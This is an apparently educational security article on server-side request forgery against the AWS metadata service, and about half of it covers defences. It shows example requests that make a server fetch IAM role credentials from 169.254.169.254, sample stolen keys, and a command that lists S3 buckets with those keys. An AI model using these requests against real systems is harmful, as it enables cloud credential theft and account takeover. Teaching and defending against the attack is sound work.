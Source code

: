 ```yaml
---
title: SSRF on AWS - Cloud Metadata Attacks
draft: false
date: 2025-01-01
tags:
  - owasp
  - ssrf
  - aws
  - cloud_security
  - metadata_service
  - imds
  - server_side_request_forgery
---
```


Server-Side Request Forgery (SSRF) is when someone tricks a server into making requests to places it shouldn't, like internal or external services. In cloud places like AWS, this can let attackers find secret keys that control AWS stuff.

AWS computers use a thing called Instance Metadata Service (IMDS) to give temporary security keys to apps running inside them. If an app can be tricked into making internal requests, attackers can get to this metadata and steal AWS keys. This can let them do things like see private data or take over the whole account.

Imagine a website that lets you fetch stuff from other websites by typing in a URL:

```http
GET /fetch?url=https://example.com
```

If the website isn't careful about checking the URL, an attacker can make it ask AWS for secret info:

```http
GET /fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

1.  The attacker asks the server to get data from AWS's secret info place (169.254.169.254).
2.  The server tells the attacker what kinds of keys are available for the computer.
3.  The attacker then asks for the actual keys:

```http
GET http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role
```

1.  The server gives the attacker the keys:

```json
{
  "AccessKeyId": "AKIAEXAMPLE123",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token": "FQoGZXIvYXdzEXAMPLE...",
  "Expiration": "2025-03-31T12:00:00Z"
}
```

1.  Now the attacker has real AWS keys and can:

* List and steal S3 buckets:

```bash
aws s3 ls --access-key AKIAEXAMPLE123 --secret-key wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY --token FQoGZXIvYXdzEXAMPLE...
```

* Create or delete EC2 computers, change what IAM roles can do, or steal data.

Here's how to prevent this:

* Make rules to stop the app from talking to 169.254.169.254.
* In AWS, turn off the old way of getting keys (IMDS v1) and use the new way (IMDSv2), which is safer:

```bash
aws ec2 modify-instance-metadata-options --instance-id i-1234567890abcdef0 --http-endpoint enabled --http-tokens required
```

* Only allow the app to fetch URLs from websites you trust.
* Don't allow requests to go to IP addresses, localhost, or internal services.
* Here's an example of how to check if a URL is okay:

```regex
^(https?:\/\/(www\.)?trusted-domain\.com\/.*)$
```

* Give each EC2 computer only the keys it needs to do its job.
* Block keys from doing important things (like listing all S3 buckets or changing IAM roles) if they don't need to.
* Use VPC Security Groups and NACLs (Network ACLs) to control which computers can talk to each other.
* Make sure EC2 computers can't just ask for anything from internal services.
